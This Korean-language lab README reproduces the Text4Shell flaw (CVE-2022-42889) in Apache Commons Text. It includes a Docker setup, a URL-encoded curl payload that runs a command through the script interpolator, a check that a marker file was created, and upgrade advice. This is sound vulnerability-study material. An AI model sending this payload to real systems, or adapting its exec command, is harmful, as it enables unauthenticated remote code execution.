



# CVE-2022-42889 (Text4Shell)

## 1. 개요

Apache Commons Text 라이브러리(1.5 ~ 1.9 버전)의 `StringSubstitutor` 클래스에서 
문자열 보간(String Interpolation) 처리 결함을 이용하여 원격 코드 실행(RCE)이 가능한 취약점입니다.

## 2. 환경 구축 방법

- 베이스 이미지: maven:3.8.6-openjdk-8-slim (도커 공식 빌드 환경)
- 추가 구성:
  - 취약한 버전을 포함한 스프링 부트 소스코드를 
    Dockerfile 내부에서 즉석 빌드하여 외부 의존성 원천 차단
- 포트 매핑: 8080:8080
- 사용한 파일:
  - `docker-compose.yml`
  - `Dockerfile`

## 3. 취약 조건

- 인증 필요 여부: 미인증 상태에서 공격 가능 (Pre-Auth)
- 원격 악용 여부: 가능 (원격 웹 요청 파라미터를 통해 페이로드 주입)
- 영향 범위: 취약한 웹 애플리케이션을 구동 중인 컨테이너 서버의 시스템 권한 탈취 
- 결함 성격: 단순 설정 실수가 아닌, 오픈소스 라이브러리 소스코드 내부 로직 결함에 기인함

## 4. 실행 방법(재현 절차)

파일이 있는 위치로 이동 :
```bash
cd commons-text/CVE-2022-42889
```

권한을 root로 변경 :
```bash
sudo su
```

도커 컴포즈를 진행 :
```bash
docker compose up --build --force-recreate -d
```

브라우저 접속: 
```
http://localhost:8080/search?query=test
```

## 5. 취약점 PoC

### 5.1 기본 동작 테스트

```
"http://localhost:8080/search?query=test"
```
결과: 입력한 문자열 `test`가 그대로 서버 응답에 출력되는 구조를 확인합니다.


### 5.2 원격 코드 실행 (RCE) 테스트

- `[` `]`  `%` `'` 특수문자는 반드시 퍼센트 인코딩(URL Encoding)을 거쳐야 하며, curl 요청 시 주입 문자가 깨지거나
  오작동하는 것을 막기 위해 `i` 옵션과 함께 정확한 전체 쿼리 스트링을 전달해야 합니다.

본 페이로드는 자바스크립트 엔진을 호출하여 컨테이너 내부에 
`/tmp/hacked_success`라는 흔적 파일을 생성하도록 강제합니다.

``` bash
curl -i "http://localhost:8080/search?query=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27touch%20%2Ftmp%2Fhacked_success%27%29%7D"
```
결과: 서버 내부에서 `touch` 명령어가 에러 없이 실행됩니다.

### 5.3 공격 성공 여부 검증 (파일 생성 확인)

```bash
docker compose exec text4shell-vuln ls -la /tmp/hacked_success
```
결과: 컨테이너 내부에 `/tmp/hacked_success` 파일이 정상적으로 
      생성되어 원격 코드 실행이 완벽히 성공했음을 증명합니다.

## 6. 캡처 화면

### 6.1 브라우저에서 기본으로 접속한 화면


### 6.2 컨테이너 내부 검증 명령 실행 전 파일 생성이 되지 않았음을 확인한 화면


### 6.3 curl을 이용한 공격 페이로드 전송 화면, 컨테이너 내부 검증 명령 실행 후 파일이 생성되었음을 확인한 화면 


## 7. 대응 방안

- Apache Commons Text 라이브러리를 문제가 해결된 `1.10.0` 이상 버전으로 업그레이드합니다.
